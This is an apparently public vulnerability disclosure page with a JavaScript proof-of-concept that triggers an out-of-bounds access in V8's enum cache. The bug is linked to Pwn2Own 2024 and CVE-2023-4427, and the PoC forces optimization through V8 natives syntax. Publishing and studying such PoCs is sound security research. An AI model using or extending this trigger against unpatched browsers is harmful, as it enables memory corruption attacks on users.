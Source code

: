 author: [@buptsb](https://x.com/buptsb)
2024-04-03 16:06:14

_This PoC is the FIRST public disclosure for this vulnerability._

# Info

Out of bounds memory access in V8. Reported by Edouard Bochin (@le_douds) and Tao Yan (@Ga1ois) of Palo Alto Networks, via Pwn2Own 2024 on 2024-03-22 
“earning $42,500 and 9 Master of Pwn points” https://twitter.com/thezdi/status/1770927914831274115
https://chromereleases.googleblog.com/2024/04/stable-channel-update-for-desktop.html
https://issues.chromium.org/issues/330760873
https://chromium-review.googlesource.com/c/v8/v8/+/5388435

Related to CVE-2023-4427 enum cache indices array out of bound access

## PoC
```
const object1 = {};
object1.a = 1;

const object2 = {};
object2.a = 1;
object2.b = 1;

const object3 = {};
object3.a = 1;
object3.b = 1;
object3.c = 1;
Object.defineProperty(object3, "d", {writable: false, enumerable: true, value: 1});

// create a split branch in map transition tree
const object4 = {};
object4.a = 1;
object4.b = 1;
object4.c = 1;
object4.d = 1;

for (let key in object3) { }

delete object3.d;

let escape;
function trigger(callback) {
  for (let key in object2) {
  	callback();
  	escape = object2[key];
  }
}

%PrepareFunctionForOptimization(trigger);
trigger(_ => _);
trigger(_ => _);
%OptimizeFunctionOnNextCall(trigger);

trigger(_ => {
	object4.c = 1.1;
	for (let key in object1) { }
});

// %SystemBreak();
```

<!-- ##{"timestamp":1712131574}## -->
